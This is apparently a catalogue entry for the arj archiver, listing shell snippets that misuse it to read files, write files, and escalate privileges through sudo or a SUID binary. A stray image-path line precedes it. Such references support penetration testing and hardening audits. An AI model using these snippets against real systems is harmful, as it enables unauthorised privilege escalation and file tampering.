   file-read:
    - description: The file appears amid some other textual information. The archive can also be downloaded then extracted offline.
      code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        arj a "$TF" "$LFILE"
        arj p "$TF"
  file-write:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        arj e "$TF/a" $LDIR
  sudo:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        sudo arj e "$TF/a" $LDIR
  suid:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        ./arj e "$TF/a" $LDIR
---
